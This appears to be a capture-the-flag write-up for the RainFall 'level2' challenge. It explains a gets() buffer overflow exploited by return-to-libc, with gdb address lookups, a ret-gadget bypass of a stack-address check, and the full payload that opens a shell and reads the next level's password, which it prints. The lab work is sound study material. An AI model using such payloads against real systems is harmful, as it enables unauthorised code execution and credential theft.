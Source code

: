 ## Analyse

In the p function there is a gets wich is vulnarable to buffer overflow

```c
0x080484ed <+25>:	call   0x80483c0 <gets@plt>
```

With the [wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?)'s pattern we can find the offset of EIP ret at 80

But there is not function to access to a shell in the scope of the binary, so we can try a shell code or a ret2libc, here we are going to exploit the 2nd method.
[return-to-libc method](https://css.csail.mit.edu/6.858/2019/readings/return-to-libc.pdf)

## Return to libc

With this method, instead so passing a function in the scope of the binary to access to a shell (because we don't have that).
We are going to give the address of the function system (which is in the libc so accessible via the PLT/GOT), and we are going to pass to it the parameter "/bin/sh"

### Find system address

```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

```sh
level2@RainFall:~$ python -c "print('H' * 80 + '\x60\xb0\xe6\xb7' + 'A' * 4 + '\x1b\xf9\xff\xbf')" | ./level2
(0xb7e6b060)
```

So the ret is the address of system the EIP will jump to this address

### Find "/bin/sh" address

We are looking for the string "/bin/sh" in the scope of the binary to pass it to system

```sh
(gdb) info proc map
process 5249
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
	 0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
	 0x804a000  0x806b000    0x21000        0x0 [heap]
	0xb7e2b000 0xb7e2c000     0x1000        0x0 
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0 
	0xb7fd9000 0xb7fdd000     0x4000        0x0 
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58 #the address of the string
1 pattern found.
```

So we are going to pass `0xb7f8cc58` has paramaters but were ?

Let's understand what a program do with the stack when we call it :

(old function)
- push paramter(s)
- push the next instruction of the actual function (ret address)

(new function)
- push actual ebp
(ebp = esp)
- esp(top of local var space of the function frame) = ebp(bot of local var space of the function frame) - size of local var

With the offset 80 (esp + size of local var + 4 bytes of saved ebp) of the buffer we are in the 2nd instruction and set the address we want

At the call of system :

- system push ebp (will overwrite the address we've just overwite)
- ebp = esp
- substract esp

So now system will search his argument at ebp + 8

	----- ESP and EBP

	saved EBP (oldly system's address / EIP)

	----- EBP + 4

	RET / 4 dummybytes (oldly the 1st argument)

	----- EBP + 8

	1st arg

so the need argument at EBP + 4 will be at EIP + 4 :

```sh
python -c "print('H' * 80 + '\x60\xb0\xe6\xb7'  + 'AAAA' + '\x58\xcc\xf8\xb7'"
```

but the dummy bytes is the RET address so if we want to make it clean and exit the program without seg. fault we can set the address of exit.




### Find exit address

```sh
(gdb) p exit
$1 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```


```sh
python -c "print('H' * 80 + '\x60\xb0\xe6\xb7'  + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7'"
```

## By pass address exclusion

When we set `0xb7e6b060`, the address of system in the stack, it's do the program exit cause of this condition :

```sh
0x080484fb <+39>:    and    eax,0xb0000000
0x08048500 <+44>:    cmp    eax,0xb0000000
0x08048505 <+49>:    jne    0x8048527 <p+83>
```

To bypass that we can call first the return instruction to quit the program and don't jump in the if

```sh
(gdb) disas p
Dump of assembler code for function p:
[...]
0x0804853e <+106>:	ret
```
   > ret = 0x0804853e

```sh
python -c "print('H' * 80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7'  + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7'"
```

After return the function the eip try free the locals pop saved EBP en RET and it's supose to read the argument of the stack frame but it's reading and executing the system address


```sh
(gdb) x/80x $esp
0xbffff6c0:     0xbffff6dc      0x00000000      0x00000000      0xb7e5ec73
0xbffff6d0:     0x080482b5      0x00000000      0x00ca0000      0x48484848
0xbffff6e0:     0x48484848      0x48484848      0x48484848      0x48484848
0xbffff6f0:     0x48484848      0x48484848      0x48484848      0x48484848
0xbffff700:     0x48484848      0x48484848      0x48484848      0x48484848
0xbffff710:     0x48484848      0x48484848      0x48484848      0x48484848
0xbffff720:     0x48484848      0x48484848      0x48484848     [0x0804853e]
0xbffff730:    [0xb7e6b060]    [0xb7e5ebe0]    [0xbffff91b]     0xb7e45400
0xbffff740:     0x00000001      0xbffff7d4      0xbffff7dc      0xb7fdc858
0xbffff750:     0x00000000      0xbffff71c      0xbffff7dc      0x00000000
0xbffff760:     0x08048260      0xb7fd0ff4      0x00000000      0x00000000
0xbffff770:     0x00000000      0xd68f971b      0xe1c8330b      0x00000000
0xbffff780:     0x00000000      0x00000000      0x00000001      0x08048420
0xbffff790:     0x00000000      0xb7ff26b0      0xb7e453e9      0xb7ffeff4
0xbffff7a0:     0x00000001      0x08048420      0x00000000      0x08048441
0xbffff7b0:     0x0804853f      0x00000001      0xbffff7d4      0x08048550
0xbffff7c0:     0x080485c0      0xb7fed280      0xbffff7cc      0xb7fff918
0xbffff7d0:     0x00000001      0xbffff8fc      0x00000000      0xbffff915
0xbffff7e0:     0xbffff925      0xbffff939      0xbffff958      0xbffff96b
0xbffff7f0:     0xbffff977      0xbffffe98      0xbffffea4      0xbffffef1
```

## Exploit

```sh
level2@RainFall:~$ (python -c "print('H' * 80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7'  + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7')"; cat) | ./level2
HHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH>HHHHHHHHHHHH>`�����X���
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

```